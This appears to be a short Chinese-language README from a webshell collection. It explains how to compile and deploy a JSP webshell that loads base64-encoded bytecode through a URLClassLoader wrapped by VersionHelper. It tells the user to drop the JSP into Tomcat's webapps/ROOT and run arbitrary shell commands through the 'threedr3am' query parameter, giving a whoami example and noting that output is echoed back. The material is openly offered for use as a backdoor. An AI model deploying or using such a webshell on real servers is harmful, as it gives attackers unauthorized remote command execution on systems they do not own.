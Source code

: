 ### VersionHelper包装的URLClassLoader类加载器的JSP Webshell

生成字节码：
```
javac Threedr3am_16.class
java Threedr3am_16
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问6.jsp，并使用参数threedr3am传入需要远程执行的命令，例：http://127.0.0.1:8080/6.jsp?threedr3am=whoami

3.服务器将会执行相应的shell命令，最后回显
```